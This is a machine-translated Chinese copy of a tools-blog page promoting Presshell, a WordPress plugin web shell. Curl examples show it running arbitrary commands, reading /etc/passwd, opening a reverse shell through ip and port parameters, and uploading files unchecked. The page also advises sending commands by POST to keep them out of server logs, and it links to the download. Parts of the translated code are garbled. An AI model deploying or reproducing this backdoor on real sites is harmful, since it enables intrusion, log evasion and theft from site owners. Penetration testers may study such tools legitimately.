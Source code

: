 # 快速和肮脏的命令执行外壳

> 原文：<https://kalilinuxtutorials.com/presshell/>

[![](img//add4ae56e046aee2a3836217457c15d6.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj8R8IslTBUDRbn54L7D-2PpGfSzkZEwyLdPVFJHhqXI86dRrFVEKkHP4CAnwauN1O9XjsI0XGahePF4GW8ryHitRDqxQpSdgpwfNjPihsPim6r2nx0LsxI4bTlAV4G9fLUbmlvjdAqlv2IHxE9R-IuAGuimoVRZLZxRkpskntv2v0N_dIvswEKHCKY/s728/backdoor%20(1).png)

**Presshell** 是*快速& dirty WordPress 命令执行 Shell* 的工具。在你的 wordpress 服务器上执行 shell 命令。上传的 shell 可能位于`**<your-host>/wp-content/plugins/shell/shell.php**`

### 装置

要安装 shell，我们假设你有 WordPress 的管理权限，并且可以安装插件，因为把 PHP 文件转移到媒体库是不应该的。否则，你有更大的问题。

只需上传位于 Releases 部分的 zip 文件作为新的扩展名，就可以开始了。

### 用法

使用 shell 非常简单。只需将`**sh**`命令作为参数传递给 shell:

**❯curl ' http://host/…/shell . PHP？cmd = uname+-a '
Linux WordPress-server 2 . 6 . 32-21-generic-PAE #**32-Ubuntu SMP Fri 2010 年 4 月 16 日 09:39:35 UTC i686 GNU/Linux

您也可以在 POST 请求中传递这些参数，这是将您的命令排除在日志之外的推荐方式。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php**

还支持更复杂的命令，不过要注意引用

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = cat/etc/passwd | grep-v "(false | nologin)'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = python-c " from urllib . parse 导入 urlencode；print(urlencode({ \ " cmd \ ":\ " uname-a \ " })" '
cmd = uname+-a**

您也可以使用`**ip**`和`**port**`参数打开反向外壳。默认端口是`**443**`。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '–data-urlencode ' port = 1337 '**

为了方便起见，还提供了一个选项，可以无条件地将文件上传到插件*的目录中，并且不需要检查*。

**❯curl ' http://host/…/shell . PHP '-f ' file = @ some _ file '
❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php
some _ file**

[**Download**](https://github.com/scheatkode/presshell)